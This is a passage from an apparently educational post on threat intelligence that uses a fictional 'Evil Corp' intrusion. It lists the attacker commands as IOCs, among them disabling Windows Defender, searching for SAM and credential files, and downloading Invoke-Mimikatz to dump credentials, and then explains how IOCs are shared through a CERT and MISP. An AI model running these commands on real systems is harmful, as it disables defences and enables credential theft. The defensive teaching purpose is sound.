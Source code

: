 | net groups | Command | Command to get local groups |
| systeminfo | Command | Command to get system info |
| $ExecutionContext.SessionState.LanguageMode | Command | Command to get language mode |
| netstat -ano | Command | Command to get network info |
| Set-MpPreference -DisableRealTimeMonitoring $true | Command | Command to disable real-time monitoring |
| Set-MpPreference -DisableIOAVProtection $true | Command | Command to disable IOAV protection |
| reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogin" | Command | Command to query registry |
| reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s | Command | Command to query registry |
| dir /s SAM | Command | Command to list the SAM file |
| dir /s SYSTEM | Command | Command to list the SYSTEM file |
| dir /s Unattend.xml | Command | Command to list the Unattend.xml file |
| $uri = "https://raw.githubusercontent.com/g4uss47/Invoke-Mimikatz/master/Invoke-Mimikatz.ps1" | Command | Command to download Invoke-Mimikatz |
| $module = Invoke-RestMethod -Uri $uri | Command | Command to download Invoke-Mimikatz |
| $creds = Invoke-MImikatz -DumpCreds | Command | Command to dump creds |

---

Now, at this point, some of the artifacts can be used as IOCs. So how do these IOCs get around, who shares them? 
Well, everyone, really (and ideally). Microsoft has a *trillion trillion trillion* signals and when they detect something, they can choose to share it.
But let's get back to **Evil Corp**. Let's say they are a part of the sector-cert for their industry, the **Super Villian CERT**. 
Evil Corp can choose to share the IOCs they have found with the Super Villian CERT, and the Super Villian CERT can then share it with other companies in the sector.
This is done usin a **TIP** or a **Threat Intelligence Platform**. A good example of a platform like this is **MISP**, or [Malware Information Sharing Platform.](https://www.misp-project.org/)

![](/img/ExpandingOnCTI/Evil%20Corp%20Attack%20Path.png)
